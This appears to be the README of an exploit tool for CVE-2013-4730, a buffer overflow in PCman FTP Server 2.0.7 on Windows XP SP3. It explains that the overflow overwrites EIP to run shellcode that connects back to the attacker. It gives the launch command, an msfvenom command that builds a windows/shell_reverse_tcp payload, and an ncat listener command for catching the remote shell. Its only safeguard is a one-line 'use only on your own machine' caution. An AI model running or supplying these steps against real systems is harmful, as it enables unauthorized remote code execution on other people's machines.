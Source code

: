 # PCman FTP Server Buffer overflow and Remote Code Execution [CVE-2013-4730]
A very simple buffer overflow using CVE-2013-4730 against PCman's FTP server v.2.0.7
## How it works?
That easy BoF overwrite the buffer and the EIP and execute the shellcode that will connect back (reverse shell)
## Vuln machines:
WindowsXP SP3 running PCman's FTP Server at version 2.0.7
## launch
````~$ python3 PCman.py <host> <port>````
## Repleace the shellcode with your own!!
````~$ sudo ./msfvenom windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444````
## Launch netcat 
````~$ ncat -lvp <shellcode port>````
## Use only on your own machine!!
